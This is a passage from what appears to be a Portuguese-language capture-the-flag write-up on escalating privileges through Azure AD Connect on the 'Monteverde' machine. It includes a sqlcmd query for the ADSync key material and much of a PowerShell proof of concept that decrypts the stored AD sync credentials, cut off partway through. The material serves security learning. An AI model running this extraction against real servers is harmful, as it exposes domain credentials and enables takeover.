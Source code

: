     Em vez disso, podemos usar o utilitário nativo do SQL Server sqlcmd.exe para extrair os valores do banco de dados. Isso é bem-sucedido e os valores são retornados.
    
    `sqlcmd -S MONTEVERDE -Q "use ADsync; select instance_id,keyset_id,entropy from
    mms_server_configuration"`
    
    ![Untitled](Privelige%20excalation%20959f3e5c95f04c0cb21f30f9a00bb8c7/Untitled%203.png)
    
    Modifique o script para definir as variáveis $key_id, $instance_id e $entropy para os valores que extraímos do banco de dados e remova os comandos que tentam obtê-los automaticamente. Adicione isso após a primeira linha do script
    
    [@_xpn_ - Azure AD Connect for Red Teamers](https://blog.xpnsec.com/azuread-connect-for-redteam/)
    
    Remover as seguintes linhas do script
    
    ```
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM
    mms_server_configuration"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $key_id = $reader.GetInt32(0)
    $instance_id = $reader.GetGuid(1)
    $entropy = $reader.GetGuid(2)
    $reader.Close()
    ```
    
    `$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"`
    
    O codigo que deve ser colocado num ficheiro `adconnect.ps1`
    
    ```
    Function Get-ADConnectPassword{
    Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"
    $key_id = 1
    $instance_id = [GUID]"1852B527-DD4F-4ECF-B541-EFCCBFF29E31"
    $entropy = [GUID]"194EC2FC-F186-46CF-B44D-071EB61F49CD"
    $client = new-object System.Data.SqlClient.SqlConnection -ArgumentList
    "Server=MONTEVERDE;Database=ADSync;Trusted_Connection=true"
    $client.Open()
    $cmd = $client.CreateCommand()
    $cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM
    mms_management_agent WHERE ma_type = 'AD'"
    $reader = $cmd.ExecuteReader()
    $reader.Read() | Out-Null
    $config = $reader.GetString(0)
    $crypted = $reader.GetString(1)
    $reader.Close()
    add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
    $km = New-Object -TypeName
    Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
    $km.LoadKeySet($entropy, $instance_id, $key_id)
    $key = $null
    $km.GetActiveCredentialKey([ref]$key)
    $key2 = $null
    $km.GetKey(1, [ref]$key2)
    $decrypted = $null